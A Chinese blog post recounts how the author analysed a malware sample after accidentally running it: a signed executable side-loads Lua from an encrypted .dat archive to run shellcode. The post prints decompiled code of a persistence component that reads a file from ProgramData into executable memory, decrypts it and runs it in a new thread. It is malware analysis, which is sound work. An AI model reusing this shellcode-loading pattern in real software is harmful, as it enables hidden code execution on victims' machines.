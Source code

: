 ```yaml
---
layout: post
title: "记一次给自己应急"
date: 2024-04-12 18:19:58 +0800
categories: reverse-engineering
---
```


很久没分析样本了，这次朋友发了个样本过来我看很有意思就想分析一下。但是终究是太自信，也是嫌麻烦，都没有把样本扔虚拟机分析，本机打开 ida 就开始逆向了。然后不出意外的我就手抖不小心把样本跑了起来，于是就有了这篇文章。

样本是一个带签名的 exe，附带了一个 `.dat` 文件，这是最开始吸引我的地方。因为众所周知，一般白加黑都是一个签名 exe 带个黑 dll，而这样本只有个 dat 文件，所以肯定有点意思。经过一通逆向后在样本里找到了很多 lua 相关的字符串，我大概猜到这个白加黑是靠 lua 脚本实现的白加黑了。网上搜了一下这个样本的信息同样确认了这个样本是从 dat 文件提取 lua 脚本执行的，作者会在 lua 脚本中插入执行shellcode 的代码，而这个 dat 文件是一个加密的压缩包。

知道了大概流程就简单了，直接在相关内存加载相关代码下断 dump 下来 shellcode 做分析。从 dump 出的 shellcode 中翻了一下找到了 mz 头，那么估计就是个内存加载 pe 的代码了：

![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/Pasted%20image%2020240412173558.png)

不过为了安全起见我还是用调试器跟了一遍，确定就是内存加载的代码，然后直接提取出来被内存加载的 pe 分析

```
HANDLE sub_10001120()
{
  HANDLE result; // eax
  HANDLE v1; // eax
  DWORD (__stdcall *lpStartAddress)(LPVOID); // [esp+Ch] [ebp-224h]
  WCHAR String1[262]; // [esp+10h] [ebp-220h] BYREF
  LPVOID lpBuffer; // [esp+21Ch] [ebp-14h]
  DWORD NumberOfBytesRead; // [esp+220h] [ebp-10h] BYREF
  HANDLE hFile; // [esp+224h] [ebp-Ch]
  BOOL v7; // [esp+228h] [ebp-8h]
  SIZE_T dwSize; // [esp+22Ch] [ebp-4h]

  lstrcpyW(String1, L"C:\\ProgramData\\templateWatch.dat");
  result = CreateFileW(String1, 0x80000000, 0, 0, 3u, 0x80u, 0);
  hFile = result;
  if ( result )
  {
    dwSize = GetFileSize(hFile, 0);
    if ( dwSize >= 0x200 && (lpBuffer = VirtualAlloc(0, dwSize, 0x3000u, 0x40u)) != 0 )
    {
      NumberOfBytesRead = 0;
      v7 = ReadFile(hFile, lpBuffer, dwSize, &NumberOfBytesRead, 0);
      if ( hFile )
      {
        CloseHandle(hFile);
        hFile = 0;
      }
      if ( v7 )
      {
        if ( NumberOfBytesRead == dwSize )
        {
          lpStartAddress = (DWORD (__stdcall *)(LPVOID))((char *)lpBuffer + 256);
          if ( sub_10001020((BYTE *)lpBuffer + 256, dwSize - 256, (BYTE *)lpBuffer, 0x100u) )
          {
            CreateThread(0, 0, lpStartAddress, 0, 0, 0);
            v1 = GetCurrentProcess();
            WaitForSingleObject(v1, 0xFFFFFFFF);
          }
        }
      }
      if ( hFile )
        CloseHandle(hFile);
      result = (HANDLE)VirtualFree(lpBuffer, 0, 0x8000u);
    }
    else
    {
      result = (HANDLE)CloseHandle(hFile);
    }
  }
  return result;
}
```

一览无余的从文件读取 shellcode 然后再加载，然后检查了下本人电脑的这个路径，发现并没有这个文件，safe 了。再问了下朋友确认这个只是整个样本的一部分，应该只是用来维持权限的，安装后门的代码在另外的位置，虚惊一场！

---

我是太想搞安全了，但是没时间，而且区块链这边搞的也不是很顺利。不过看来二进制这块我还没有太生疏，逆完这样本说实话还挺开心的，感觉自己宝刀未老啊。
